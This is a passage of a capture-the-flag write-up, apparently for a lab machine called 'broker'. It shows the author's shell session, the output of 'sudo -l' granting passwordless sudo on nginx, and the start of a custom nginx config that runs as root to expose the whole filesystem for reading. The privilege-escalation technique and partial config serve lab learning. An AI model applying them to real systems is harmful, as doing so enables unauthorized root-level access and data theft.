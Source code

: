 ```

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Tue Jan  2 20:24:31 2024 from 10.10.14.5
activemq@broker:~$ ls .ssh
authorized_keys  id_rsa  id_rsa.pub
activemq@broker:~$ ls .ssh -la
total 20
drwx------ 2 activemq activemq 4096 Jan  2 20:23 .
drwxr-x--- 5 activemq activemq 4096 Jan  2 20:20 ..
-rw-r--r-- 1 activemq activemq  569 Jan  2 20:23 authorized_keys
-rw------- 1 activemq activemq 2602 Jan  2 20:20 id_rsa
-rw-r--r-- 1 activemq activemq  569 Jan  2 20:20 id_rsa.pub
```

## escalation to root

running `sudo -l` gives us:

```
activemq@broker:/home/activemq$ sudo -l
sudo -l
Matching Defaults entries for activemq on broker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```

which already gives us some interesting clues regarding possible attack vectors. before enumerating any further with linenum or linpeas, let's see what we can do with this...

`man nginx` reveals that nginx can be started with a custom configuration by creating a config file and then starting the server with that file. my initial goal was to create a php file that would give me a reverse shell, but this didn't work out, as i couldn't create a config file that would execute the script rather than just delivering it for download. the next best thing i could come up with was creating traversable index of the system's root directory. that, combined with running nginx as root should give us read-access to the entire filesystem on the machine. let's try this:

```
user root;

worker_processes auto;
pid /run/nginx.pid;

events {
        worker_connections 768;
}

http {

        sendfile on;
        tcp_nopush on;
```